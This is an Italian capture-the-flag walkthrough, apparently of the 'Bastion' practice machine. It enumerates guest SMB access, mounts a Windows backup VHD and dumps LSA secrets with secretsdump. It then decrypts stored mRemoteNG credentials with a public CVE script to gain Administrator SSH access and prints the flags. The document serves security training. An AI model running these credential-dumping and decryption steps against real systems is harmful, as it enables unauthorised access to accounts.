





# **Bastion**


## **Reconnaissance**
Si esegue una prima scansione per enumerare le porte TCP aperte sulla macchina target.

```bash
$ nmap -p- --min-rate 1000 10.x.x.x --open
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 16.41 seconds
```

Si scansionano alcune delle porte TCP aperte per identificare i servizi esposti. 
```bash
$ nmap -p22,135,139,445,5985 -sCV 10.x.x.x --open
```
```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m58s, deviation: 34m36s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-11-06T10:57:38+01:00
| smb2-time: 
|   date: 2025-11-06T09:57:36
|_  start_date: 2025-11-06T09:49:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 17.69 seconds
```

La macchina target si basa su **Windows Server 2016** ed espone i servizi:
- **OpenSSH** sulla porta **22/tcp**
- **Microsoft Windows RPC** sulla porta **135/tcp**
- **NetBIOS** sulla porta **139/tcp**
- **SMB** sulla porta **445/tcp** che permette l'accesso come **guest** 
    - Accesso come **Guest**
    - Disabilitato il **Message Signing**
- **Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)** per **WinRM** sulla porta **5985/tcp**

Si aggiorna in file /etc/hosts aggiungendo un record per associare l'indirizzo IP della macchina target con l'hostname Bastion.
```text
10.x.x.x BASTION Bastion
```

## **Information Gathering via SMB**
Si utilizzano le credenziali di guest per interagire con il servizio SMB.
```bash
$ nxc smb BASTION -u guest -p ''
```
```
SMB         10.x.x.x    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True) 
SMB         10.x.x.x    445    BASTION          [+] Bastion\guest:
```

Si enumerano shares e users.

```bash
$ nxc smb BASTION -u guest -p '' --shares
```
```
SMB         10.x.x.x    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True) 
SMB         10.x.x.x    445    BASTION          [+] Bastion\guest: 
SMB         10.x.x.x    445    BASTION          [*] Enumerated shares
SMB         10.x.x.x    445    BASTION          Share           Permissions     Remark
SMB         10.x.x.x    445    BASTION          -----           -----------     ------
SMB         10.x.x.x    445    BASTION          ADMIN$                          Remote Admin
SMB         10.x.x.x    445    BASTION          Backups         READ,WRITE      
SMB         10.x.x.x    445    BASTION          C$                              Default share
SMB         10.x.x.x    445    BASTION          IPC$            READ            Remote IPC
```

E' presente la share **Backups** che non è di default in SMB.

```bash
$ nxc smb BASTION -u guest -p '' --users
```
```
SMB         10.x.x.x    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True) 
SMB         10.x.x.x    445    BASTION          [+] Bastion\guest:
```

### Backups share
Si accede al contenuto della share Backups.
```bash
$ impacket-smbclient 'guest'@BASTION
```
```
# use Backups

# ls
drw-rw-rw-          0  Thu Nov  6 05:29:24 2025 .
drw-rw-rw-          0  Thu Nov  6 05:29:24 2025 ..
drw-rw-rw-          0  Thu Nov  6 05:29:23 2025 KVBYFArMDe
-rw-rw-rw-        116  Tue Apr 16 07:43:19 2019 note.txt
-rw-rw-rw-          0  Fri Feb 22 07:43:28 2019 SDT65CB.tmp
drw-rw-rw-          0  Fri Feb 22 07:44:02 2019 WindowsImageBackup
-rw-rw-rw-          0  Thu Nov  6 05:29:24 2025 zfsepYtcmv.txt

# cat note.txt

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.

```

Nel file **note.txt** si avvertono i **sysadmins** di non trasferire l'intero file di backup localmente.

Si ispeziona il contenuto della cartella **WindowsImageBackup**:

```
# tree WindowsImageBackup
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351
/WindowsImageBackup/L4mpje-PC/Catalog
/WindowsImageBackup/L4mpje-PC/MediaId
/WindowsImageBackup/L4mpje-PC/SPPMetadataCache
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/BackupSpecs.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
/WindowsImageBackup/L4mpje-PC/Catalog/BackupGlobalCatalog
/WindowsImageBackup/L4mpje-PC/Catalog/GlobalCatalog
/WindowsImageBackup/L4mpje-PC/SPPMetadataCache/{cd113385-65ff-4ea2-8ced-5630f6feca8f}
Finished - 21 files and folders
```

## **Mounting a file system via Backup VHD file**

Si effettua il **mounting** del file system VHD per analizzarlo sulla macchina Kali.

```bash
$ # Mounting the remote share 
$ mkdir -p ./mnt/remote/
$ sudo mount --types cifs -o rw //BASTION/Backups/ ./mnt/remote/

$ # Mounting the Backup 9b9cfbc3-369e-11e9-a17c-806e6f6e6963
$ mkdir -p ./mnt/vhd/9b9cfbc3-369e-11e9-a17c-806e6f6e6963/
$ sudo guestmount --add ./mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro ./mnt/vhd/9b9cfbc3-369e-11e9-a17c-806e6f6e6963 -v
```

Si accede al file system.


Utente:
- L4mpje

### Local Password Dumping
Si verifica la presenza dei file SAM, SECURITY e SYSTEM in **C:/Windows/System32/config**.


Si copiano i file **SYSTEM** e **SECURITY**.
```bash
$ sudo cp ./mnt/vhd/9b9cfbc4-369e-11e9-a17c-806e6f6e6963/Windows/System32/config/SYSTEM .

$ sudo cp ./mnt/vhd/9b9cfbc4-369e-11e9-a17c-806e6f6e6963/Windows/System32/config/SECURITY .
```

E si ottengono le credenziali memorizzate tra i file di backup della macchina target.
```bash
$ impacket-secretsdump -system SYSTEM -security SECURITY LOCAL      
```
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up... 
```

Si ottiene la password **bureaulampje** e si verifica l'accesso con l'utente **L4mpje** per i servizi SMB, WinRM e SSH.
```bash
$ nxc smb BASTION -u L4mpje -p bureaulampje
```
```
SMB         10.x.x.x    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True) 
SMB         10.x.x.x    445    BASTION          [+] Bastion\L4mpje:bureaulampje 
```

Si ottiene l'accesso a SMB con **L4mpje:bureaulampje**.

```bash
$ nxc winrm BASTION -u L4mpje -p bureaulampje
```
```
WINRM       10.x.x.x    5985   BASTION          [*] Windows 10 / Server 2016 Build 14393 (name:BASTION) (domain:Bastion)
WINRM       10.x.x.x    5985   BASTION          [-] Bastion\L4mpje:bureaulampje
```

Non si ha accesso tramite WinRM.

```bash
$ ssh L4mpje@BASTION
```



Si ha accesso con SSH.

## **Shell as L4mpje**
Si accede al contenuto di **users.txt**.

```
l4mpje@BASTION C:\Users\L4mpje>type .\Desktop\user.txt
```
```
4e61365286e394d6ec509e2dee714729 
```

Analizzando la macchina si individua tra i programmi la cartella **mRemoteNG**.


> **Multi-Remote Next Generation (mRemoteNG)** è un tool open-source per il remote connection management.

Si ispeziona il file **Changelog.txt**:



Quindi, nel sistema dovrebbe essere presente **mRemoteNG 1.76.11**.

## **Password Exfiltration**
In mRemoteNG i file di configurazione memorizzati in **%AppData%\mRemoteNG\\** contengono password cifrate.


La default password encryption key potrebbe essere **mR3m**. [https://www.errno.fr/mRemoteNG.html](https://www.errno.fr/mRemoteNG.html)

Si lancia un server SMB sulla macchina Kali per scaricare il file **confCons.xml** e ne si analizza il contenuto.



Si utilizza lo script **/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper/mremoteng_decrypt.py** di questa PoC [https://github.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper/tree/main?tab=readme-ov-file#mremoteng_decryptpy](https://github.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper/tree/main?tab=readme-ov-file#mremoteng_decryptpy) per decifrare la password di Administrator con il valore di default **mR3m**.

```bash
$ python3 mremoteng_decrypt.py --password 'mR3m' -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='
```
```
Password: thXLHM96BeKL0ER2
```

Si accede tramite SSH con le credenziali **Administrator:thXLHM96BeKL0ER2**.


## **Shell as Administrator**
Si accede al contenuto di **root.txt**.
```powershell
administrator@BASTION C:\Users\Administrator>type .\Desktop\root.txt     
```
```                                                       
04b6e530f049f6cf1de02f6c4f5e0f38  
```

---
